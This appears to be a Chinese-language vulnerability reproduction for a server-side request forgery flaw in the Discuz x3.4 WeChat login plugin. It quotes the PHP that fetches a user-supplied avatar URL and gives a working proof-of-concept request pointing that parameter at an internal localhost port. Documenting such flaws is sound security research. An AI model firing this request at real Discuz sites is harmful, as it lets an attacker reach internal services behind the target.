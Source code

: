 # Discuz x3.4 Weixin Plugin ssrf

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

`source/plugin/wechat/wechat.class.php` WeChat类syncAvatar方法：


```php
    static public function syncAvatar($uid, $avatar) {

        if(!$uid || !$avatar) {
            return false;
        }

        if(!$content = dfsockopen($avatar)) {
            return false;
        }

        $tmpFile = DISCUZ_ROOT.'./data/avatar/'.TIMESTAMP.random(6);
        file_put_contents($tmpFile, $content);

        if(!is_file($tmpFile)) {
            return false;
        }

        $result = uploadUcAvatar::upload($uid, $tmpFile);
        unlink($tmpFile);

        C::t('common_member')->update($uid, array('avatarstatus'=>'1'));

        return $result;
    }
```

source/plugin/wechat/wechat.inc.php 中调用了`WeChat::syncAvatar`，直接用`$_GET['avatar']`作为参数传进去：


```php
......

elseif(($ac == 'register' && submitcheck('submit') || $ac == 'wxregister') && $_G['wechat']['setting']['wechat_allowregister']) {

        ......

        $uid = WeChat::register($_GET['username'], $ac == 'wxregister');

        if($uid && $_GET['avatar']) {
            WeChat::syncAvatar($uid, $_GET['avatar']);
        }

}
```

不过因为这里用到了微信登录的插件，所以要利用的话需要目标站开启微信登录：

![](images/15889918037132.png)


这里 SSRF 的构造很简单，直接在avatar参数构造 url 即可（只是注意wxopenid参数每次请求都要足够随机保证没有重复，如果重复的话代码是无法走到发起请求的逻辑的）：

**poc**


```bash
http://target/plugin.php?id=wechat:wechat&ac=wxregister&username=vov&avatar=http://localhost:9090/dz-weixin-plugin-ssrf&wxopenid=dont_be_evil
```

![](images/15889918212218.png)
